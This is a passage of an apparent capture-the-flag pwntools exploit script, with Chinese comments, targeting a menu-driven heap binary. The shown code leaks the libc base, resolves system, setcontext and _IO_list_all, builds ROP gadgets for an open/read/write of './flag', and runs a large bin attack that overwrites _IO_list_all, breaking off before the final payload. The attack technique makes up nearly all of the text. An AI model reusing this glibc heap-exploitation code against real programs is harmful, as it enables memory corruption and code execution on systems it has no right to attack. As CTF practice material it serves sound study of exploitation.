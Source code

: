    ```python
       p.sendlineafter(b':',str(index).encode())
       p.sendlineafter(b':',str(size).encode())
       
   
   def edit(index, content):
       p.sendlineafter(b'>','3')
       p.sendlineafter(b':',str(index).encode())
       p.sendafter(b':',content)
   
   def show(index):
       p.sendlineafter(b'>',b'4')
       p.sendlineafter(b':',str(index).encode())
   
   def free(index):
       p.sendlineafter(b'>','2')
       p.sendlineafter(b':',str(index).encode())
   
   # 泄漏libc
   add(0x510,0)    #0
   add(0x530,15)    #15 隔开
   add(0x520,1)    #1
   add(0x530,15)    #15
   edit(15,b"./flag\x00\x00")
   
   free(1)
   add(0x530,15)    #15 将chunk1放入large bin
   show(1)
   
   addr = u64(p.recvuntil(b"\x7f")[-6:].ljust(8,b'\x00'))
   libc_base = addr - 0x1E4030
   success("libc_addr==>"+hex(libc_base))
   
   #计算__free_hook和system地址
   setcontext_addr    = libc_base + libc.sym["setcontext"] + 61
   system_addr        = libc_base + libc.sym["system"]
   IO_2_1_stdout_addr = libc_base + libc.sym["_IO_2_1_stdout_"]
   IO_list_all_addr   = libc_base + libc.sym["_IO_list_all"]
   IO_wfile_jumps_addr = libc_base + libc.sym["_IO_wfile_jumps"]
   # IO_wfile_jumps_addr = libc_base + 0x1E4F80
   
   success("system_addr==>"        + hex(system_addr))
   success("setcontext_addr==>"    + hex(setcontext_addr))
   success("IO_2_1_stdout_addr==>" + hex(IO_2_1_stdout_addr))
   success("IO_list_all_addr==>"   + hex(IO_list_all_addr))
   success("IO_wfile_jumps_addr==>"   + hex(IO_wfile_jumps_addr))
   
   open_addr = libc.sym['open']+libc_base
   read_addr = libc.sym['read']+libc_base
   write_addr = libc.sym['write']+libc_base
   
   pop_rdi_ret=libc_base + 0x000000000002858f
   pop_rdx_r12_ret=libc_base + 0x0000000000114161
   pop_rax_ret=libc_base + 0x0000000000045580
   pop_rsi_ret=libc_base + 0x000000000002ac3f
   ret= libc_base + 0x0000000000026699
   
   # 泄漏堆地址 同时完成large bin attack 攻击 覆盖掉IO_list_all
   free(0)
   edit(1,p64(addr)*2 + p64(0) + p64(IO_list_all_addr-0x20))
   add(0x530,15)    #15 将chunk0放入large bin 触发large bin attack
   
   show(1)
   p.recv()
   ```